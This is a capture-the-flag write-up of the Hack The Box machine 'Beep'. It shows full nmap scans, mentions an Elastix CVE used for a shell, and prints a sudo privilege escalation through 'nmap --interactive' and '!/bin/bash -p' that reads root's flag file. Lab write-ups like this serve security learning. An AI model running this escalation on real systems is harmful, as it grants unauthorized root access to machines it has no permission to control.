

# Beep

## Overview

This was a fairly easy box. User flag was obtained by exploiting a CVE of elastix and then from there root was a very simple sudo privesc


**Name -** Beep

**Difficulty -** Easy

**OS -** Linux

**Points -** 20

## Information Gathering

### Port Scan

Basic Scan

```bash
╰─ nmap 10.129.1.226
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 02:07 +06
Nmap scan report for 10.129.1.226
Host is up (0.13s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 4.14 seconds
```

Version Scan

```bash
╭╴root @ …/c/Users/SiliconBits took 21s
╰─ nmap -sC -sV 10.129.1.226 -p 22,25,80,110,111,143,443,993,995,3306,4445,10000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 02:08 +06
Verbosity Increased to 1.
Verbosity Increased to 2.
NSE Timing: About 99.94% done; ETC: 02:12 (0:00:00 remaining)
Verbosity Increased to 3.
Stats: 0:04:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE: Active NSE Script Threads: 1 (1 waiting)
NSE Timing: About 99.94% done; ETC: 02:13 (0:00:00 remaining)
Completed NSE at 02:13, 80.63s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:13
Completed NSE at 02:18, 312.43s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:18
Completed NSE at 02:18, 0.00s elapsed
Nmap scan report for 10.129.1.226
Host is up (0.22s latency).
Scanned at 2023-06-01 02:08:53 +06 for 561s

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn\'t establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.1.226/
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            938/udp   status
|_  100024  1            941/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-05-31T20:12:57+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/emailAddress=root@localhost.localdomain/organizationalUnitName=SomeOrganizationalUnit
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--/localityName=SomeCity/emailAddress=root@localhost.localdomain/organizationalUnitName=SomeOrganizationalUnit
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a82b6cf7e1afa52841c9160c8fbc8
| SHA-1: 800ac6e7065e11980187c4520d9b18efe557a09f
| -----BEGIN CERTIFICATE-----
| MIIEDjCCA3egAwIBAgICfVUwDQYJKoZIhvcNAQEFBQAwgbsxCzAJBgNVBAYTAi0t
| MRIwEAYDVQQIEwlTb21lU3RhdGUxETAPBgNVBAcTCFNvbWVDaXR5MRkwFwYDVQQK
| ExBTb21lT3JnYW5pemF0aW9uMR8wHQYDVQQLExZTb21lT3JnYW5pemF0aW9uYWxV
| bml0MR4wHAYDVQQDExVsb2NhbGhvc3QubG9jYWxkb21haW4xKTAnBgkqhkiG9w0B
| CQEWGnJvb3RAbG9jYWxob3N0LmxvY2FsZG9tYWluMB4XDTE3MDQwNzA4MjIwOFoX
| DTE4MDQwNzA4MjIwOFowgbsxCzAJBgNVBAYTAi0tMRIwEAYDVQQIEwlTb21lU3Rh
| dGUxETAPBgNVBAcTCFNvbWVDaXR5MRkwFwYDVQQKExBTb21lT3JnYW5pemF0aW9u
| MR8wHQYDVQQLExZTb21lT3JnYW5pemF0aW9uYWxVbml0MR4wHAYDVQQDExVsb2Nh
| bGhvc3QubG9jYWxkb21haW4xKTAnBgkqhkiG9w0BCQEWGnJvb3RAbG9jYWxob3N0
| LmxvY2FsZG9tYWluMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3e4HhLYPN
| gwJ4eKlW/UpmemPfK/a3mcafSqx/AJP34OC0Twj/cZNaqFPLOWfNjcq4mmiV++9a
| oJCkj4apDkyICI1emsrPaRdrlA/cCXcn3nupfOgcfpBV4vqNfqorEqpJCO7T4bcp
| Z6YHuxtRtP7gRJiE1ytAFP2jDvtvMqEWkwIDAQABo4IBHTCCARkwHQYDVR0OBBYE
| FL/OLJ7hJVedlL5Gk0fYvo6bZkqWMIHpBgNVHSMEgeEwgd6AFL/OLJ7hJVedlL5G
| k0fYvo6bZkqWoYHBpIG+MIG7MQswCQYDVQQGEwItLTESMBAGA1UECBMJU29tZVN0
| YXRlMREwDwYDVQQHEwhTb21lQ2l0eTEZMBcGA1UEChMQU29tZU9yZ2FuaXphdGlv
| bjEfMB0GA1UECxMWU29tZU9yZ2FuaXphdGlvbmFsVW5pdDEeMBwGA1UEAxMVbG9j
| YWxob3N0LmxvY2FsZG9tYWluMSkwJwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9z
| dC5sb2NhbGRvbWFpboICfVUwDAYDVR0TBAUwAwEB/zANBgkqhkiG9w0BAQUFAAOB
| gQA+ah2n+bomON94KgibPEVPpmW+8N6Sq3f4qDG54urTnPD39GrYHvMwA3B2ang9
| l3zta5tXYAVj22kiNM2si4bOMQsa6FZR4AEzWCq9tZS/vTCCRaT79mWj3bUvtDkV
| 2ScJ9I/7b4/cPHDOrAKdzdKxEE2oM0cwKxSnYBJk/4aJIw==
|_-----END CERTIFICATE-----
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry
|_/
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: -5s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:18
Completed NSE at 02:18, 0.02s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:18
Completed NSE at 02:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:18
Completed NSE at 02:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 563.37 seconds
           Raw packets sent: 16 (680B) | Rcvd: 14 (608B)
```

### **HTTP Enumeration**

Visiting the website gives us the following



We found a CVE for the elastix [CVE-2012-4869](https://nvd.nist.gov/vuln/detail/CVE-2012-4869). By using burpsuite I was bale to get a shell


## Getting User.txt

I got the user flag from the home directory

```bash
bash-3.2$ cd home
cd home
bash-3.2$ ls -al
ls -al
total 28
drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
drwxr-xr-x 22 root       root       4096 May 31 23:05 ..
drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
bash-3.2$ cd fanis
cd fanis
bash-3.2$ ls -al
ls -al
total 32
drwxrwxr-x 2 fanis fanis 4096 Apr  7  2017 .
drwxr-xr-x 4 root  root  4096 Apr  7  2017 ..
-rw------- 1 fanis fanis  114 Apr  7  2017 .bash_history
-rw-r--r-- 1 fanis fanis   33 Apr  7  2017 .bash_logout
-rw-r--r-- 1 fanis fanis  176 Apr  7  2017 .bash_profile
-rw-r--r-- 1 fanis fanis  124 Apr  7  2017 .bashrc
-rw-rw-r-- 1 fanis fanis   33 May 31 23:06 user.txt
bash-3.2$ cat user.txt
cat user.txt
4336208b007773afba0cb673641fb7a4
bash-3.2$
```

User flag - 4336208b007773afba0cb673641fb7a4

## Getting root.txt

Simple sudo privesc

```bash
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/bash -p
!/bin/bash -p
bash-3.2# id; cat /root/root.txt
id; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
28a6d2441cf649a4a0da57d7f495dc53
bash-3.2#
```

## Flags

**user.txt -** 4336208b007773afba0cb673641fb7a4

**root.txt -** 28a6d2441cf649a4a0da57d7f495dc53
